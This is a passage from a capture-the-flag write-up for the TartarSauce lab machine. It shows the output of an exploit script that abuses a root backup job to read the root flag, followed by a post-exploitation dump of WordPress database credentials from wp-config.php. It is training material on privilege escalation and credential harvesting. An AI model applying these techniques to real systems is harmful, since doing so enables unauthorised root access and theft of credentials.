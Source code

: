 In order to do this, we will use the script from [0xdf.gitlab.io](https://0xdf.gitlab.io/2018/10/20/htb-tartarsauce.html) to help us easily obtain the flag. 

```
onuma@TartarSauce:/tmp$ ./exploit.sh
./exploit.sh
Waiting for archive filename to change...
File changed... copying here
tar: var/www/html/webservices/monstra-3.0.4/public/uploads/.empty: Cannot stat: Permission denied
tar: Exiting with failure status due to previous errors
rm: cannot remove '.872efbf672debe4bce3f9eeb27afa02ce6245db4': No such file or directory
rm: cannot remove 'var/www/html/webservices/monstra-3.0.4/public/uploads/.empty': Permission denied
Waiting for new logs...
Only in /var/tmp/check/var/www/html: setuid
Only in /var/www/html: webservices
------------------------------------------------------------------------
Integrity Check Error in backup last ran :  Tue Dec 14 07:44:44 EST 2021
------------------------------------------------------------------------
/var/tmp/.3dff5229a58067f8c2208d9082f51f9d4b3fb873
Only in /var/www/html: index.html
Only in /var/www/html: robots.txt
Only in /var/tmp/check/var/www/html: setuid
Only in /var/www/html: webservices
tail: inotify resources exhausted
tail: inotify cannot be used, reverting to polling
------------------------------------------------------------------------
Integrity Check Error in backup last ran :  Tue Dec 14 07:49:48 EST 2021
------------------------------------------------------------------------
/var/tmp/.872efbf672debe4bce3f9eeb27afa02ce6245db4
diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
1,7c1
< User-agent: *
< Disallow: /webservices/tar/tar/source/
< Disallow: /webservices/monstra-3.0.4/
< Disallow: /webservices/easy-file-uploader/
< Disallow: /webservices/developmental/
< Disallow: /webservices/phpmyadmin/
< 
---
> <Redacted root flag>
Only in /var/www/html/webservices/monstra-3.0.4/public/uploads: .empty
```

## Post-Exploitation
### WP-config files
```
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rwxr-xr-x 1 root root 2963 Jan 21  2021 /var/www/html/webservices/wp/wp-config.php                                                                                                                                 
define('DB_NAME', 'wp');
define('DB_USER', 'wpuser');
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
define('DB_HOST', 'localhost');

```
